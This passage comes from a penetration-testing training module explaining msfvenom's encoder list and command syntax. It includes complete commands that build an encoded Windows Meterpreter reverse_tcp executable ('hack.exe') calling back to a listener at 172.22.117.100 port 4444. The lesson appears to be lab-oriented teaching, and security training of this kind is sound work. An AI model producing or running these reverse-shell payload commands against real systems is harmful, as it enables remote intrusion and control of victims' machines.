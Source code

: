     - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.

#### Msfvenom Command Structure

Now, let's cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=172.22.117.100 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-a x86`: Designates the architecture we will use; the default is `x86`
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use
      - `-f exe`: Indicates the file type to create (in this case, `.exe`)
      - `-o /tmp/hack.exe`: Creates an output file, specifying the file name (`hack.exe`) and location (inside the `/tmp` directory)

- Next, refer to the command that we used in the preceding lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program
      - `-p`: Indicates payload
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module
      - `-f exe`: Creates a `.exe` file type

In the activity that follows, you'll build a custom command in an exploitation attack.

[<- Back to Module Contents](#module-day-2-contents)

---

### 03. Msfvenom Payloads
